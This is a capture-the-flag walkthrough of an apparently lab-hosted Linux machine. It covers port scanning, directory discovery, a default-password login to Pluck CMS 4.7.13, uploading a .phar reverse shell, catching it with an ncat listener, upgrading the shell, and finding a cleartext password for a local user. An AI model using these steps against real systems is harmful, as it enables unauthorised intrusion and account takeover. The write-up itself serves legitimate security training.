 I always start with a ping to see that I have a connection to the machine and also figure out the OS of the machine.
```
sudo ping -c4 10.10.116.166
PING 10.10.116.166 (10.10.116.166) 56(84) bytes of data.
64 bytes from 10.10.116.166: icmp_seq=1 ttl=63 time=89.3 ms
64 bytes from 10.10.116.166: icmp_seq=2 ttl=63 time=86.3 ms
64 bytes from 10.10.116.166: icmp_seq=3 ttl=63 time=84.3 ms
64 bytes from 10.10.116.166: icmp_seq=4 ttl=63 time=103 ms

--- 10.10.116.166 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 84.333/90.641/102.610/7.131 ms
```

I then like to do a basic Nmap scan of all ports. Using sudo makes Nmap default to "Stealth scan". 
Machines rated "easy" rarely require scanning of all ports, but I like to scan them to ensure I'm not missing anything.
```
sudo nmap -p- 10.10.116.166
Starting Nmap 7.94SVN ( https://nmap.org ) 
Nmap scan report for 10.10.116.166
Host is up (0.086s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 301.79 seconds
```

So there are SSH and HTTP server ports open so let's look at them next in more depth. 
```
sudo nmap -sVC -p22,80 10.10.116.166
Starting Nmap 7.94SVN ( https://nmap.org )
Nmap scan report for 10.10.116.166
Host is up (0.098s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.45 seconds
```

HTTP server is only the default Apache page. Let's find some directories. My default is feroxbuster but gobuster or fuff are also good.
```
feroxbuster -u http://10.10.116.166

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.116.166
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      312c http://10.10.116.166/app => http://10.10.116.166/app/
301      GET        9l       28w      325c http://10.10.116.166/app/pluck-4.7.13 => http://10.10.116.166/app/pluck-4.7.13/
200      GET       15l       74w     6147c http://10.10.116.166/icons/ubuntu-logo.png
200      GET      375l      964w    10918c http://10.10.116.166/
[####################] - 74s    30007/30007   0s      found:4       errors:1
[####################] - 74s    30000/30000   404/s   http://10.10.116.166/
[####################] - 0s     30000/30000   138889/s http://10.10.116.166/app/ => Directory listing
```

There is `/app` which then has `/pluck-4.7.13`. The site has two links at the bottom. Another is to `www.pluck-cms.org` which redirects to the GitHub page of Pluck CMS and the other to an admin login page.
The Login page only requires a password so I tried the most obvious one and got in. The password was the documented default one.
The pluck CMS version is 4.7.13 so I searched vulnerabilities for in that version from searchsploit.
```
searchsploit pluck 4.7.13
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)            | php/webapps/49909.py
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

There seems to be a file upload vulnerability. Looking at it a bit deeper reveals that the vulnerability is related to pluck CMS not blocking .phar extension.
I use `PHP Ivan Sincek` from `https://www.revshells.com/` to create a reverse shell with .phar extension that I can upload to the admin page and execute.
The upload is successful and the panel gives us a handy link for the file so we don't even have to search for it. Let's then start ncat listener.
```
ncat -lvnp 1234
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.116.166:41598.
SOCKET: Shell has connected! PID: 39496
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
I checked if the machine has python3 installed to get a better, interactive shell. 
```
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL-Z
stty raw -echo && fg
```
I could not find anything of interest in the directories I landed to and then went to look in the home folders of the other users.
There was nothing of interest in the `/home/lucien` folder that I could read. In the `/opt` directory on the other hand were two files that I could read.
The file owned by lucien has a cleartext password that lets me SSH into the machine or optionally just use `su lucien`.









